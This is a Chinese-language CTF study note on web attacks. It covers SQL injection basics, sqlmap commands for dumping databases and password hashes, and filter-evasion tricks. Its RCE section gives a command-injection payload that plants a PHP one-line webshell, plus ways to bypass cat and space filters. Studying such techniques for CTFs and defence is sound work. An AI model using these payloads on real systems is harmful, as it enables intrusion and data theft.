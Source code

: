 ### 编码

------

```
1:0x9字符是 水平定位符
2:0xa字符是 换行符
3:0xb字符是 垂直定位符
4:0xc字符是 换页键
5:0xd字符是 归位符
6:0x20字符是 控制设备4(空格)
7:0x2b字符是 +
```







### **SQL注入**

------

column_name : 列的名称

Information_schema.columns : 表示所有的列的信息

Information_schema : 表示所有信息，包括库、表、列

Information_schema.tables : 表示所有的表的信息

table_schema : 数据库的名称

table_name : 表的名称



关于注释：GET（`--+`），POST（`#`）

@@basedir  得到mysql路径







### sqlmap基础命令

------

查询sqlmap是否存在注入命令 sqlmap.py -u url/?id=1 

查询当前用户下的所有数据库 sqlmap.py -u url/?id=1 --dbs 

获取数据库的表名 sqlmap.py -u url/?id=1 -D (数据库名) --tables 

获取表中的字段名 sqlmap.py -u url/?id=1 -D (数据库名) -T (输入需要查询的表名) --columns 

获取字段的内容 sqlmap.py -u url/?id=1 -D (数据库名) -T (输入需要查询的表名) -C (表内的字段名) --dump 

查询数据库的所有用户 sqlmap.py -u url/?id=1 --users 

查询数据库的所有密码 sqlmap.py -u url/?id=1 --passwords 

查询数据库名称 sqlmap.py -u url/?id=1 --current-db



—cookie  –level 2

—ua lever 3

sqlmap可以在请求中伪HTTP的Referer头，当--level参数大于等于3时，会尝试进行refer注入

–referer  level 5

有的时候扫不出注入点，也是需要提升 level 等级



脚本名： space2comment.py  作用：用注释/**/替换空格字符' '

绕过空格过滤的方法   /**/、()、%0a







### MySQL 删除表

------

delete，drop，truncate 都有删除表的作用，区别在于：

-  1、delete 和 truncate 仅仅删除表数据，drop 连表数据和表结构一起删除，打个比方，delete 是单杀，truncate 是团灭，drop 是把电脑摔了。
-  2、delete 是 DML 语句，操作完以后如果没有不想提交事务还可以回滚，truncate 和 drop 是 DDL 语句，操作完马上生效，不能回滚，打个比方，delete 是发微信说分手，后悔还可以撤回，truncate 和 drop 是直接扇耳光说滚，不能反悔。
-  3、执行的速度上，**drop>truncate>delete**，打个比方，drop 是神舟火箭，truncate 是和谐号动车，delete 是自行车。







### **RCE**

------

> 过滤 cat

**方法一**当cat被过滤后,可以使用一下命令进行读取文件的内容
(1)more:一页一页的显示的显示档案内容
(2)less:与more类似,但是比more更好的是,他可以[pg dn][pg up]翻页
(3)head:查看头几行
(4)tac:从最后一行开始显示,可以看出tac是cat的反向显示
(5)tail:查看尾几行
(6)nl:显示的时候,顺便输出行号
(7)od:以二进制的方式读取档案内容
(8)vi:一种编辑器，这个也可以查看
(9)vim:一种编辑器,这个也可以查看
(10)sort:可以查看
(11)uniq:可以查看



**方法二**
一句话木马
构造payload如下：

CTFHub  RCE –（命令注入，过滤cat）：  `127.0.0.1&echo "<?php @eval(\$_POST['a']);?>" >>shell.php`



**方法三**
反斜杠 ： 例如 ca\t fl\ag.php
连接符： 例如 ca’‘t fla‘’g.txt



> 过滤空格，其实就`;`就行呀

**当空格被过滤后,可以使用一下命令进行读取文件的内容**
`<` `<>` ` >`重定向符
`%09`(需要php环境)(tab)
`%20`(space)
`${IFS}`
`$IFS$9`
{cat,flag.php} //用逗号实现了空格功能
`%20`

PS：为什么我只有`<`可以